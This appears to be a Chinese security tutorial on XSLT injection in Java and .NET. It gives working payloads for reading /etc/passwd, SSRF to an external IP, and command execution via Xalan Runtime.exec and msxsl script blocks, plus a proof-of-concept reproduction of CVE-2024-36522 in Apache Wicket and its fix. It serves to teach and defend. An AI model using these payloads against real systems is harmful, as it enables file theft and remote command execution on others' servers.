

# XSLT使用

XSLT (Extensible Stylesheet Language Transformations) 是一种可扩展样式表语言，用于XML的转换例如将XML转换成XML、HTML、PDF等。

例如下面代码就可以将一个xml转化为html

首先准备一个XML文件——data.xml

```xml
<bookstore>
  <book>
    <title>Effective Java</title>
    <author>Joshua Bloch</author>
    <price>45.00</price>
  </book>
  <book>
    <title>Java Concurrency in Practice</title>
    <author>Brian Goetz</author>
    <price>55.00</price>
  </book>
</bookstore>
```

准备一个xslt样式表

```xsl
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="html" encoding="UTF-8" indent="yes"/>
  <xsl:template match="/">
    <html>
      <body>
        <h2>Bookstore</h2>
        <table border="1">
          <tr bgcolor="#9acd32">
            <th>Title</th>
            <th>Author</th>
            <th>Price</th>
          </tr>
          <xsl:for-each select="bookstore/book">
            <tr>
              <td><xsl:value-of select="title"/></td>
              <td><xsl:value-of select="author"/></td>
              <td><xsl:value-of select="price"/></td>
            </tr>
          </xsl:for-each>
        </table>
      </body>
    </html>
  </xsl:template>
</xsl:stylesheet>
```

基本语法：

```
xsl:stylesheet：根元素，定义了转换的基本信息，如版本号和命名空间。
xsl:template：定义转换模板，可以包含匹配模式和模板规则。
xsl:for-each：用于迭代XML文档中的节点集合。
xsl:if、xsl:choose、xsl:when：条件语句，用于基于条件选择不同的转换路径。
xsl:value-of：用于输出XML节点的文本内容。
xsl:variable：定义变量，用于存储和重用转换过程中的数据。
xsl:param：定义参数，允许在调用模板时传递参数。
xsl:include、xsl:import：用于包含或导入其他XSLT样式表。
```

在XSLT样式表中定义了XML的标签，并且转换成HTML模板

```java
public static void main(String[] args) {
    try {
        // 加载 XML 和 XSLT 文件
        StreamSource xmlSource = new StreamSource(Files.newInputStream(Paths.get("data.xml")));
        StreamSource xsltSource = new StreamSource(Files.newInputStream(Paths.get("template.xsl")));

        // 创建 TransformerFactory 实例
        TransformerFactory factory = TransformerFactory.newInstance();

        // 创建 Transformer 实例
        Transformer transformer = factory.newTransformer(xsltSource);

        // 执行转换
        StringWriter writer = new StringWriter();
        transformer.transform(xmlSource, new StreamResult(writer));

        // 输出转换后的 HTML
        String htmlOutput = writer.toString();
        System.out.println(htmlOutput);

    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

运行如下代码得到输出的HTML模板

```
<html>
<body>
<h2>Bookstore</h2>
<table border="1">
<tr bgcolor="#9acd32">
<th>Title</th><th>Author</th><th>Price</th>
</tr>
<tr>
<td>Effective Java</td><td>Joshua Bloch</td><td>45.00</td>
</tr>
<tr>
<td>Java Concurrency in Practice</td><td>Brian Goetz</td><td>55.00</td>
</tr>
</table>
</body>
</html>
```

浏览器打开


可以知道的是，通过Transformer示例化时传入的xslt样式表，可以用其transform方法对source进行转化，最终将字符串进行返回，通过这种方式可以将xml这种source转换成不同的模板（HTML，XML，PDF）等

# 恶意利用

## 文件读取

对于xsl:value-of标签，我们可以通过system-property()返回系统属性的值

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="system-property('xsl:vendor')"/>
    <xsl:value-of select="system-property('xsl:vendor-url')"/>
    <xsl:value-of select="system-property('xsl:version')"/>
  </xsl:template>
</xsl:stylesheet>
```


可以通过document()访问外部XML文档中的节点，可读取文件

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="document('/etc/passwd')"/>
  </xsl:template>
</xsl:stylesheet>
```


这里读win.ini的时候报错了


## SSRF

```
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('http://47.93.248.221:2333')"/>
  </xsl:template>
</xsl:stylesheet>
```


可以发送HTTP请求，也可以发送FTP请求等

## 命令执行

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">

        // 执行任意命令
        <xsl:variable name="rtobject" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtobject,'calc')"/>
        <xsl:variable name="processString" select="ob:toString($process)"/>
        <xsl:value-of select="$processString"/>
    </xsl:template>
</xsl:stylesheet>
```


## 嵌入脚本区块执行远程代码

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="urn:my-scripts">

<msxsl:script language = "C#" implements-prefix = "user">
<![CDATA[
public string execute(){
System.Diagnostics.Process proc = new System.Diagnostics.Process();
proc.StartInfo.FileName= "C:\\windows\\system32\\cmd.exe";
proc.StartInfo.RedirectStandardOutput = true;
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.Arguments = "/c dir";
proc.Start();
proc.WaitForExit();
return proc.StandardOutput.ReadToEnd();
}
]]>
</msxsl:script>

  <xsl:template match="/fruits">
  --- BEGIN COMMAND OUTPUT ---
    <xsl:value-of select="user:execute()"/>
  --- END COMMAND OUTPUT ---    
  </xsl:template>
</xsl:stylesheet>
```

这种方式在Java中是不适用的，使用 Microsoft 的 `MSXML` 或 `.NET` 框架进行 XSLT 转换可以用到

# 漏洞防御

添加安全属性

```
@RequestMapping(value = "/transformerFactory/sec")
public String transformerFactorySec(HttpServletRequest request) {
    try {
        String body = WebUtils.getRequestBody(request);
        TransformerFactory factory = TransformerFactory.newInstance();
        StreamSource xslt = new StreamSource(new StringReader(body));
        factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
        Transformer transformer = factory.newTransformer(xslt);

        StreamSource source = new StreamSource(new StringReader(body));
        StringWriter writer = new StringWriter();
        StreamResult result = new StreamResult(writer);
        transformer.transform(source, result);
        return writer.toString();
    } catch (Exception e){
        logger.error(e.toString());
        return EXCEPT;
    }
}
```


当读取文件时


# Apache Wicket XSLT漏洞复现

漏洞编号：CVE-2024-36522

复现环境：jdk11

## 环境搭建

导入依赖

```
<dependency>
    <groupId>org.apache.wicket</groupId>
    <artifactId>wicket-core</artifactId>
    <version>9.16.0</version>
</dependency>
```

## 漏洞复现

创建一个poc.xml

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object">
    <xsl:template match="/">
        <xsl:variable name="rtobject" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtobject,'calc')"/>
        <xsl:variable name="processString" select="ob:toString($process)"/>
        <xsl:value-of select="$processString"/>
    </xsl:template>
</xsl:stylesheet>
```

执行

```
package com.DawnT0wn.Wicket;

import org.apache.wicket.util.resource.FileResourceStream;
import org.apache.wicket.util.resource.IResourceStream;
import org.apache.wicket.util.resource.XSLTResourceStream;

import java.io.File;

public class XSLTTest {
    public static void main(String[] args) {
        IResourceStream xstlStream = new FileResourceStream(new File("poc.xml"));
        IResourceStream xmlStream = new FileResourceStream(new File("poc.xml"));
        XSLTResourceStream stream = new XSLTResourceStream(xstlStream, xmlStream);
    }
}
```

## 漏洞分析

https://github.com/apache/wicket/commit/bc7dcc3f5bfbb3a41ab407d53ba5e0af3d3453a0

根据commit定位到了XSLTResourceStream类的构造方法


如果控制了传入的xmlSource和xsltSource，就可以直接解析xslt模板，那直接用最原始的方式就可以实现xslt的注入

构造IResourceStream的参数值

```
IResourceStream xstlStream = new FileResourceStream(new File("poc.xml"));
IResourceStream xmlStream = new FileResourceStream(new File("poc.xml"));
```



## 命令执行回显

wicket中提供了一个`org.apache.wicket.util.io.IOUtils`类，其中的toString方法可以直接将InputStream转化为字符串返回


所以可以用这个方法来实现回显

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:rp="http://xml.apache.org/xalan/java/java.lang.Process"
                xmlns:jv="http://xml.apache.org/xalan/java/"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:sc="http://xml.apache.org/xalan/java/java.util.Scanner"
                xmlns:is="http://xml.apache.org/xalan/java/java.io.InputStream"
                xmlns:io="http://xml.apache.org/xalan/org/org.apache.wicket.util.io.IOUtils"
>
    <xsl:template match="/">
       <xsl:variable name="rtobject" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtobject,'echo 111')"/>
        <xsl:variable name="isstream" select="rp:getInputStream($process)"/>
        <xsl:variable name="sc_string" select="io:toString($isstream,'GBK')"/>
        <xsl:value-of select="$sc_string"/>
   </xsl:template>
</xsl:stylesheet>
```

因为本身XSLTResourceStream没有打印字符串的能力，所以还需要再代码中打印一下

```
package com.DawnT0wn.Wicket;

import org.apache.wicket.util.io.IOUtils;
import org.apache.wicket.util.resource.FileResourceStream;
import org.apache.wicket.util.resource.IResourceStream;
import org.apache.wicket.util.resource.ResourceStreamNotFoundException;
import org.apache.wicket.util.resource.XSLTResourceStream;

import java.io.File;
import java.io.IOException;

public class XSLTTest {
    public static void main(String[] args) throws ResourceStreamNotFoundException, IOException {
        IResourceStream xstlStream = new FileResourceStream(new File("poc.xml"));
        IResourceStream xmlStream = new FileResourceStream(new File("poc.xml"));
        XSLTResourceStream stream = new XSLTResourceStream(xstlStream, xmlStream);
        System.out.println(IOUtils.toString(stream.getInputStream()));
    }
}

```


## 漏洞修复


添加了安全解析XML文件属性

```
factory.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true);
```


参考链接：

https://www.freebuf.com/vuls/407745.html

https://xz.aliyun.com/t/15670?u_atoken=bd1e58ded96670416f621e1011c24660&u_asig=0a47315217308642417103051e0046#toc-10